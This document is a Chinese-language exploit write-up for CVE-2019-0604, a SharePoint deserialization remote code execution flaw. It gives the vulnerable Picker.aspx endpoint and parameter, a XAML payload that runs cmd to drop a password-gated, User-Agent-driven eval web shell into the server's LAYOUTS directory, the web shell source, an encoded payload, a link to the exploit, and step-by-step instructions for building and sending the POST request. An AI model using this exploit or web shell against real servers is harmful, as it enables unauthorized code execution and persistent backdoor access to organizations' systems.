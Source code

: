 （CVE-2019-0604）Microsoft SharePoint 远程代码执行漏洞
======================================================

一、漏洞简介
------------

Microsoft
SharePoint是美国微软（Microsoft）公司的一套企业业务协作平台。该平台用于对业务信息进行整合，并能够共享工作、与他人协同工作、组织项目和工作组、搜索人员和信息。

Microsoft SharePoint
远程代码执行漏洞（CVE-2019-0594、CVE-2019-0604，高危）：Microsoft
SharePoint软件无法检查应用程序包源标记时触发该漏洞。攻击者可在SharePoint应用程序池和SharePoint服务器中执行任意代码。

二、漏洞影响
------------

Microsoft SharePoint Enterprise Server 2016SharePoint Foundation 2013 SP1harePoint Server 2010 SP2SharePoint Server 2019

三、复现过程
------------

ItemPicker Web 控件实际上从来没有在一个 .aspx
页面中使用过。但是看看它基类型的用法，EntityEditorWithPicker，说明在
/\_layouts/15/Picker.aspx 应该有一个 Picker.aspx 文件使用了它。

该页面要求使用选择器对话框的类型通过 URL 的 PickerDialogType
参数的形式提供。在这里，可以使用以下两种 ItemPickerDialog
类型中的任何一种：

    · Microsoft.SharePoint.WebControls.ItemPickerDialog in             Microsoft.SharePoint.dll
    · Microsoft.SharePoint.Portal.WebControls.ItemPickerDialog in Microsoft.SharePoint.Portal.dll

利用第一种 PickerDialogType 类型

当表单提交 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的值以 "\_\_" 为开头时(类似于"\_dummy")，

EntityInstanceIdEncoder.DecodeEntityInstanceId(string)
处的断点将显示以下情况：而调用另外一种 ItemPickerDialog
类型时，函数调用栈只是在最上面的两个有所不同。

这表明 ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData
的数据最终出现在了
EntityInstanceIdEncoder.DecodeEntityInstanceId(string) 中。
剩下的只需要拷贝实例 ID 和构造一个 XmlSerializer 的 payload 就可以了。

**完整POST以及具体参数如下：**

URL：`/Picker.aspx?PickerDialogType=控件的程序集限定名`

参数：
`ctl00%24PlaceHolderDialogBodySection%24ctl05%24hiddenSpanData=payload`

实际上还需访问Picker.aspx附带的其它参数，测试我不附带其它参数时提交表单是失败的。

poc
---

> https://download.0-sec.org/Web安全/Microsoft
> SharePoint/CVE20190604-Payload.7z

**解说k8gege的cve-2019-0604-exp.py**

老实说k8gege的py脚本有点花哨，一大堆的16进制字符串，分成 payload1,2,3,
好坏呀

python脚本远程post的payload,反序列化之后是一个xml数据体

    <ResourceDictionary
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:System="clr-namespace:System;assembly=mscorlib"
    xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
    <ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
        <ObjectDataProvider.MethodParameters>
            <System:String>cmd</System:String>
            <System:String>/c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" </System:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    </ResourceDictionary>

![3.png](./.resource/(CVE-2019-0604)MicrosoftSharePoint远程代码执行漏洞/media/rId25.png)

即远程执行echo命令，向服务器SharePoint的模板layouts目录写了一个up.aspx文件

    cmd /c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" 

生成了一个K8飞刀专用UA一句话木马.asxp，OK，shell到手

    <%@ Page Language="Jscript" %>
    <%
    var pwd="tom";
    var uastr=Request.UserAgent;
    if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) 
    {
        var code=uastr.Replace(pwd+"===","");
        eval(code,"unsafe"); 
    };
    %>

### 结合k8的poc构造我们自己的payload

-   1、 下载编译好的程序，解压运行CVE20190604Forms.exe

-   2、在Cmd文本框加输入命令，点击"Update XML"按钮，会将命令合并为xml

-   3、点击"EncodeEntity"，程序将xml字符串序列化为对象，并触发执行payload,
    序列化后的字符串显示在\"payload\"文本框中

```{=html}
<!-- -->
```
    __cp087135009700370047005600d600e2004400160047001600e20035005600270067009600360056003700e2009400e600470056002700e6001600c600e2005400870007001600e60046005600460075002700160......

-   4、 \"\_\_cp\....\" 这些字符串就是payload了，复制到
    cve-2019-0604-exp.py中，修改替换掉原来k8的payload，

-   5、向Picker.aspx提交payload时，需要附带的其它参数，可通过Burp代理工具，获取一下相关的参数，再将payload值传给
    ctl00\$PlaceHolderDialogBodySection\$ctl05\$hiddenSpanData

```{=html}
<!-- -->
```
    ...

    values = {
        '__REQUESTDIGEST':YOUR_REQUESTDIGEST,
        '__EVENTTARGET':'',
        '__EVENTARGUMENT':'',
        '__spPickerHasReturnValue':'',
        '__spPickerReturnValueHolder':'',
        '__VIEWSTATE':YOUR_VIEWSTATE,
        '__VIEWSTATEGENERATOR':'',
        'ctl00$PlaceHolderDialogBodySection$ctl07$queryTextBox':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$hiddenSpanData':**YOUR_PayloadData**,
        'ctl00$PlaceHolderDialogBodySection$ctl05$OriginalEntities':'<Entities />',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityKey':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityDisplayText':'',
        'ctl00$PlaceHolderDialogBodySection$ctl05$downlevelTextBox':'&#160;',
        '__CALLBACKID':'ctl00$PlaceHolderDialogBodySection$ctl07',
        '__CALLBACKPARAM':';#;#11;#;#;#',
        '__EVENTVALIDATION':YOUR_EVENTVALIDATION
    }

    data = urllib.urlencode(values)

    ...

-   6、运行py脚本, good luck!!!

参考链接
--------

> https://github.com/boxhg/CVE-2019-0604/
